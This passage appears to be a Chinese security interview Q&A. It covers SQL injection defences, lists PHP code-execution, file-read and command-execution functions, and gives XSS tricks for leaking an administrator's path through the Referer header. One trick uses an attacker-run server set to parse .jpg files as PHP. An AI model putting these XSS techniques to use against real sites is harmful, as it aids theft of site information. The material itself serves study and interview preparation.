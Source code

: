 ### 十一：SQL注入防护方法？
1、使用安全的API
2、对输入的特殊字符进行Escape转义处理
3、使用白名单来规范化输入验证方法
4、对客户端输入进行控制，不允许输入SQL注入相关的特殊字符
5、服务器端在提交数据库进行SQL查询之前，对特殊字符进行过滤、转义、替换、删除。

### 十二，代码执行，文件读取，命令执行的函数都有哪些？
1，代码执行：eval,preg_replace+/e,assert,call_user_func,call_user_func_array,create_function
 2，文件读取：file_get_contents(),highlight_file(),fopen(),read file(),fread(),fgetss(), fgets(),parse_ini_file(),show_source(),file()等
 3，命令执行：system(), exec(), shell_exec(), passthru() ,pcntl_exec(), popen(),proc_open()

### 十三，img标签除了onerror属性外，还有其他获取管理员路径的办法吗？

src指定一个远程的脚本文件，获取referer

### 十四，img标签除了onerror属性外，并且src属性的后缀名，必须以.jpg结尾，怎么获取管理员路径。
1,远程服务器修改apache配置文件，配置.jpg文件以php方式来解析
AddType application/x-httpd-php .jpg
<img src=<http://xss.tv/1.jpg>>; 会以php方式来解析


